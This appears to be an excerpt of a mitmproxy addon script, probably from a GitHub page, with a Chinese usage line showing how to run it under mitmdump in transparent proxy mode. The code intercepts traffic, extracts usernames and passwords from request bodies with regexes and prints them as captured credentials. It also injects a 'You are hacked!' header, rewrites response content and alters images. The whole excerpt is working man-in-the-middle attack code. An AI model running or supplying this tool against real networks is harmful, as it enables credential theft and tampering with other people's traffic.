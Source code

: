 ```python
    try:
      flow.request.query['tp'] = 'jpeg'
    except Exception as e:
      pass
    try:
      for name, regex in PASSWORD_REGEXS:
        m = regex.search(flow.request.text)
        if not m:
          continue
        print('Credential captured from {}:\n\tUsername: {}\n\tPassword: {}'
                .format(name,
                        urllib.parse.unquote_plus(m.group('username')),
                        urllib.parse.unquote_plus(m.group('password'))))
    except Exception as e:
      pass

  def response(self, flow):
    flow.response.headers['x-twd2-message'] = 'You are hacked!'
    for old, new in URL_TRANSFORMS:
      try:
        flow.response.content = flow.response.content.replace(old, new)
      except Exception as e:
        pass
    try:
      stream = io.BytesIO(flow.response.content)
      img = Image.open(stream)
      img = img.convert('1')
      stream = io.BytesIO()
      img.save(stream, format='PNG')
      flow.response.content = stream.getvalue()
      print('Image converted: {}'.format(flow.request.path))
    except Exception as e:
      repr(e)


addons = [
  Trans()
]
```

使用方法：

```bash
mitmdump --mode transparent --showhost -s trans.py -q
```